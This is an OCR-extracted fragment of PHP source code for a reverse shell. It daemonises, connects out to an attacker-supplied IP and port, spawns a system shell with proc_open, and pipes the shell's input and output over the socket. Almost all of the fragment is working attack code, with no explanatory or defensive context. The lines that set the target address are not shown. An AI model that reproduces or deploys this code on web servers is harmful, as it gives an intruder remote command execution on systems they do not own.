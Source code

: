 ```php

        if ($pid) {
                exit(0);  // Parent exits
        }
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
```
